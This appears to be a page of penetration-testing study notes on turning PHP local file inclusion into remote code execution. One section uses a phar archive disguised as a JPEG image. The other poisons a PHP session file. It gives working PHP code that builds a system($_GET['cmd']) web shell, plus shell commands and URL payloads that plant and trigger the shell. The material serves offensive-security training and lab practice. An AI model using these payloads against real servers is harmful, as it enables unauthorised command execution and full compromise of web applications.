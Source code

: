 ## **Phar Upload**

> * There are a couple of PHP-only techniques that utilize PHP wrappers to achieve the same goal as the previous Image upload to RCE.
> * These techniques are the ZIP Upload and Phar Upload to gain RCE
> * These techniques may become handy in some specific cases where the simple Image Upload technique does not work.

**The steps are the following:**

1.  Write the following `shell.php` file

    ```
    <?php
    $phar = new Phar('shell.phar');
    $phar->startBuffering();
    $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');

    $phar->stopBuffering();
    ```
2. Compile the `phar` file and rename it as `shell.jpg`:
   * `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`
3. Use the `phar wrapper` to run commands (note: you may need to use the URL encoding of `/shell.txt`):
   * `http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`

***

## **PHP Session - Log Poisoning LFI to RCE**

> * This attack requires writing PHP code in a field we control that gets logged into a log file
> * The same file is then included in order to execute the PHP code.
> * For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.
> * PHP Session Poisoning works by poisoning a parameter stored inside the PHPSESSID cookie (which can hold specific user-related data on the back-end)
> * The details of PHPSESSID cookies are stored in session files on the back-end, saved in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows.
> * The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess\_ prefix.
> * For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess\_el4ukv0kqbvoirg7nkp4dncpk3.

**The steps are the following:**

1. Get our PHPSESSID cookie value
2. Use LFI to examine our PHPSESSID session file (`/var/lib/php/sessions/` Linux or `C:\Windows\Temp\` Windows)
3. Check if any data inside the session file is under our control in order to poison it
4. For example, the session file may contain a `language` value which is controlled through the get parameter `?language=`
5. Set the value of such parameter (by simply visiting the page with ?language=session\_poisoning) and check if it changes in the session file
6. Poison the parameter by writing PHP code to the session file. We can write a basic PHP web shell by changing the ?language= parameter to a URL encoded web shell, as follows:
7. `http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
8. Finally, we can include the session file and use the \&cmd=id to execute a commands: `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`

